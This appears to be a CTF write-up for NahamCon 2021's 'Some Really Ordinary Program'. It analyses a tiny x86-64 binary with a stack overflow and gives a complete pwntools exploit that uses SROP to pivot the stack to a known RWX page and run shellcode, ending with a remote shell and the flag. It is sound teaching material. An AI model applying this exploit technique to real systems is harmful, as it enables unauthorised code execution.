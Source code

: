 # NahamCon CTF 2021

## Some Really Ordinary Program [medium]

> Author: @M_alpha#3534
>
> I'm starting to get pretty good at this whole programming thing. Here's a basic program I wrote that will echo back what you say. 
>
> [some-really-ordinary-program](some-really-ordinary-program)

Tags: _pwn_ _x86-64_ _bof_ _srop_


## Summary

_Some Really Ordinary Program_ isn't an overstatement, this is the 3rd _and 4th_ time I've solve this same problem in 2021.  The _and 4th_ comes from this problem being nearly identical to a similar problem from another CTF that ran at the same time as this CTF.  I'm not complaining, just reporting.

Anyway, the short of it is, we have nearly nothing to work with but a `read` and `syscall` gadget; using the return value from `read` we can use that to set `rax` so that we can use _srop_.

These 3rd and 4th iterations of this problem in 2021 have up'd the game a bit requiring stack relocating to a known location for some easy shellcode injection.

## Analysis

### Checksec

```
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```

No mitigations, choose your own adventure--_assuming you can find the bits you need._

### <strike>Decompile with Ghidra</strike> Disassemble with `objdump`

```assembly
  401000:	48 89 f2             	mov    rdx,rsi
  401003:	48 89 fe             	mov    rsi,rdi
  401006:	b8 00 00 00 00       	mov    eax,0x0
  40100b:	48 89 c7             	mov    rdi,rax
  40100e:	0f 05                	syscall
  401010:	c3                   	ret
  401011:	48 89 f2             	mov    rdx,rsi
  401014:	48 89 fe             	mov    rsi,rdi
  401017:	b8 01 00 00 00       	mov    eax,0x1
  40101c:	48 89 c7             	mov    rdi,rax
  40101f:	0f 05                	syscall
  401021:	c3                   	ret
  401022:	55                   	push   rbp
  401023:	48 89 e5             	mov    rbp,rsp
  401026:	48 81 ec f4 01 00 00 	sub    rsp,0x1f4
  40102d:	48 bf 00 20 40 00 00 	movabs rdi,0x402000
  401034:	00 00 00
  401037:	be 1f 00 00 00       	mov    esi,0x1f
  40103c:	e8 d0 ff ff ff       	call   0x401011
  401041:	48 8d 3c 24          	lea    rdi,[rsp]
  401045:	be 20 03 00 00       	mov    esi,0x320
  40104a:	e8 b1 ff ff ff       	call   0x401000
  40104f:	48 8d 3c 24          	lea    rdi,[rsp]
  401053:	48 89 c6             	mov    rsi,rax
  401056:	e8 b6 ff ff ff       	call   0x401011
  40105b:	c9                   	leave
  40105c:	c3                   	ret
  40105d:	e8 c0 ff ff ff       	call   0x401022
  401062:	eb f9                	jmp    0x40105d
```

Yep, that's all of it.

Loading this up in GDB and running with `starti` you can quickly see that `main` is at `0x401022`, and that functions `0x401000` and `0x41011` are simple fronts to `read` and `write`.

Starting from `main` (`0x401022`), `0x1f4` bytes of stack is allocated, then a string pointer (`0x402000`) and its length are _moved_ into `rdi` and `esi`, then `write` (`0x401011`) is called.  This emits to your terminal: `What you say is what you get.\n`.  Next `read` (`0x401000`) is called with parameters _stack_ and `0x320` for the location and length.  

Well there's your problem.  The stack was allocated for `0x1f4` and `read` is instructed to read up to `0x320` bytes creating a _bof_ vulnerability.

The next set of lines just emit to your terminal whatever you inputted, then we start all over again by calling `main`.  

> I guess I may have _jumped_ ahead of myself, the entry point is actually at the bottom at `0x40105d`, this calls `main`, than then jumps back to calling `main` in a loop.

That's all there is folks.  Not a lot here.  No GOT, very few gadgets, no libc, etc..., total _srop_ fodder.

```
[ Legend:  Code | Heap | Stack ]
Start              End                Offset             Perm Path
0x0000000000400000 0x0000000000401000 0x0000000000000000 r-x some-really-ordinary-program
0x0000000000401000 0x0000000000402000 0x0000000000001000 r-x some-really-ordinary-program
0x0000000000402000 0x0000000000403000 0x0000000000002000 rwx some-really-ordinary-program
0x00007ffff7ffa000 0x00007ffff7ffd000 0x0000000000000000 r-- [vvar]
0x00007ffff7ffd000 0x00007ffff7fff000 0x0000000000000000 r-x [vdso]
0x00007ffffffde000 0x00007ffffffff000 0x0000000000000000 rwx [stack]
0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]
```

Before getting into the _srop_ details, lets look at the memory map.  Other than the stack, there is a 4K page of memory that is also `RWX` at `0x402000`.  This is something we both have and _know_.

The attack is pretty simple, use `read` to _read_ in `0xf` bytes, so that `rax` is `0xf` (rt_sigreturn syscall).  Then call `syscall` followed by our sigreturn frame.

That frame will change `rsp` to the end of page `0x402000` (remember stacks grow _down_ in address space), and then set `rip` to `main`.  This will basically start us all over again, but this time we know the stack address because we _set_ it.

Since we can _read_ and we know _where_ we will be storing that input, we can just send some shellcode to do the rest.


## Exploit

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./some-really-ordinary-program')
binary.symbols['main'] = 0x401022
binary.symbols['midread'] = 0x401006

if args.REMOTE:
    p = remote('challenge.nahamcon.com', 31225)
else:
    p = process(binary.path)
```

Standard pwntools header with some symbols added for `main` and `midread`.

> `midread` is the midpoint of the `read` frontend function described above.  Since all the registers are correct except for `rax` and `rdi`, it was only necessary to get the tail end of that function.

```python
syscall = next(binary.search(asm('syscall')))
stack = 0x402ff8

frame = SigreturnFrame()
frame.rsp = stack
frame.rip = binary.sym.main
```

Find a syscall gadget and setup the location of our new stack at the end of page `0x402000`, then define our rt_sigreturn frame with `rsp` pointing to our new stack and `rip` pointing to `main`


```python
# overflow buffer
# get control of RIP
# call the read function to get 0xf in rax for syscall
# sigret
payload  = b''
payload += (0x1f4 + 8) * b'A'
payload += p64(binary.sym.midread)
payload += p64(syscall)
payload += bytes(frame)

p.sendafter('.\n',payload)
```

The payload just needs to fill up the `0x1f4` byte buffer plus 8 bytes for the `push rbp`, then call `midread` followed by `syscall` and our frame.

```python
# with read called, get 0xf in rax
p.send(constants.SYS_rt_sigreturn * b'A')
```

With the payload now running we need to send `0xf` bytes so that `read` will return with `0xf` in `rax`.  After than the rt_sigreturn syscall will kick in and update all the registered with values from our frame, including the new stack (`rsp`) and where we should start executing again (`rip`).

```python
# new stack that we know address of and its NX
# just put in some shell code and call it
payload  = b''
payload += asm(shellcraft.sh())
payload += (0x1f4 + 8 - len(payload)) * b'A'
payload += p64(stack - 0x1f4 - 8)

p.sendafter('.\n',payload)

# take out the garbage
p.recvuntil(p64(stack - 0x1f4 - 8))
p.interactive()
```

Here we are again, at the beginning, all that has changed is we _know_ where the stack is.  This time we inject some shellcode, pad, and then replace the return address with the location of our shellcode.

The _take out the garbage_ just receives back our payload from the `write` that `main` calls after the `read` to prettify our output for this writeup.

Output:

```bash
# ./exploit.py REMOTE=1
[*] '/pwd/datajerk/nahamconctf2021/ordprog/some-really-ordinary-program'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to challenge.nahamcon.com on port 31450: Done
[*] Switching to interactive mode
$ id
uid=1000(challenge) gid=1000 groups=1000
$ cat flag.txt
flag{175c051dbd3db6857f3e6d2907952c87}
```

